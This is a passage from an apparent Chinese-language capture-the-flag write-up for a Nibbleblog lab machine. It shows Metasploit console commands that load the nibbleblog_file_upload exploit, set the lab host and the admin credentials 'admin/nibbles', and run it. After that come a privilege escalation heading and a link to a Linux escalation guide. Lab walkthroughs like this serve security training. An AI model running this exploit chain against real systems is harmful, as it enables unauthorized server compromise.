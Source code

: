 *搜索结果*

*让我们使用 Metasploit 来利用这个漏洞。*

```
*msf5 > use exploit/multi/http/nibbleblog_file_upload  
msf5 exploit(**multi/http/nibbleblog_file_upload**) > set targeturi nibbleblog 
targeturi => nibbleblog 
msf5 exploit(**multi/http/nibbleblog_file_upload**) > set RHOSTS 10.10.10.75   
RHOSTS => 10.10.10.75 
msf5 exploit(**multi/http/nibbleblog_file_upload**) > set USERNAME admin       
USERNAME => admin 
msf5 exploit(**multi/http/nibbleblog_file_upload**) > set PASSWORD nibbles     
PASSWORD => nibbles 
msf5 exploit(**multi/http/nibbleblog_file_upload**) > exploit*
```

*![](img/7d1c30c8f397a40af89419e66d507323.png)*

*准备利用漏洞*

*![](img/79054d2cd0b5748ee36500b2dca82faf.png)*

*利用服务器*

# *特许升级*

*[](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/?source=post_page-----4f1911ca1511----------------------) [## 基本 Linux 权限提升

### 在开始之前，我想指出——我不是专家。据我所知，没有什么“魔法”。

blog.g0tmi1k.com](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/?source=post_page-----4f1911ca1511----------------------) 
